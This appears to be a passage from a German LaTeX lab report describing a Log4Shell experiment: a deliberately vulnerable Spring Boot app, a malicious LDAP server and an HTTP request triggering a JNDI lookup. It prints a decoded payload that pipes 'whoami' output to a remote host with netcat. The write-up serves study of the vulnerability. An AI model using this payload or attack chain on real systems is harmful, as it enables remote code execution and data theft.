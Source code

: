 
\subsubsection{Versuchsaufbau und Exploit}
Da die Log4j Bibliothek bereits gepatcht ist und auch sämtliche Java Versionen bereits gepatcht wurden,
wurde im Versuchsaufbau ein Git Repository verwendet.\footcite{log4jvulnerableapp} Es beinhaltet eine Java Spring Boot Web Applikation, die mit
einer Java Version läuft, die nach wie vor anfällig für Log4Shell Angriffe ist.\\
Desweiteren benötigt man einen \gls{ldap}-Server, den man selbst kontrolliert, um einen \gls{jndi}-Lookup zu provozieren. Hierfür verwendet wurde ein weiteres
Git Repository in dem ein bereits voll konfigurierter Server zur Verfügung gestellt wird. Das Repository wurde jedoch aus GitHub entfernt. Das Kompilat des schädlichen
\gls{ldap}-Servers kann nichtsdestotrotz in einem Archiv gefunden werden.\footcite{maliciousLdap}\\
Der letzte Schritt zum erfolgreichen Ausführen des Exploits ist es, eine \gls{http}-Anfrage an das Zielsystem zu senden. In der Anfrage muss nun nur noch die \gls{ip}-Addrese mit Port angegeben werden
unter denen der \gls{ldap}-Server erreichbar ist.

\vspace{0.3cm}

Bei der Durchführung des Exploits wurde die Base64 Funktionalität des bereits laufenden \gls{ldap}-Servers verwendet. Daher liegt das auszuführende Skript als base64-encoded String vor. Die \gls{bash} Befehle,
die hier der Reihe nach ausgeführt werden sind übersetzt: \textit{bin/bash | whoami | nc 192.168.186.216 9999}.\\
Die tatsächliche Funktionalität des Skripts konnte jedoch hierbei nicht Revers Engineert werden. Ein eigener Ansatz einer solchen Base64 Funktionalität wäre der Folgende:\\




